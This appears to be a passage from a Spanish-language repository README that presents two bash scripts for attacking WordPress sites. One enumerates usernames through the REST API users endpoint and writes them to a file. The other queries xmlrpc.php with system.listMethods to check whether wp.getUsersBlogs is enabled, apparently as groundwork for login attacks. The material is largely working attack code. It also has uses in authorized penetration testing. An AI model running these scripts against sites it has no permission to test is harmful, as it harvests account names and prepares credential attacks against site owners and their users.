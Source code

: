 
```shell
#!/bin/bash

host=$1
usuario="None"
i=0

while [ ! -z $usuario ]
do
    usuario="$(timeout 1 curl -s "$host/wp-json/wp/v2/users/" | jq ".[$i][\"slug\"]" | tr -d '"')"
    if [ "$usuario" == "null" ]; then
        exit
    fi
    echo -e "[-] Usuario: $usuario"
    echo "$usuario" >> usuarios-wp.txt
    i=$i+1
done
```

### getMethods.sh

Para este script necesitamos utilizar `xmlrpc.php` el cual es un sistema que permite actualizaciones remotas a WordPress desde otras aplicaciones, concretamente utilizaremos `system.listMethods` para listar todos los métodos permitidos, sin embargo, solo nos interesa que esté habilitado ***wp.getUsersBlogs***


```shell
#!/bin/bash

host=$1

if [[ -z $@ ]]; then
	echo -e "\n\tUso: $0 <host>"
	exit 1
fi


function ctrl_c(){
	echo -e "\n[!] Saliendo. . .\n"
	exit 1

}

trap ctrl_c INT

declare -r xmlrpc_url="http://$host/xmlrpc.php"
declare -r data_xml_file="data.xml"

cat << EOF > $data_xml_file
<methodCall>
	<methodName>system.listMethods</methodName>
</methodCall>
EOF


curl -s $xmlrpc_url -X POST -d @$data_xml_file

rm $data_xml_file
```
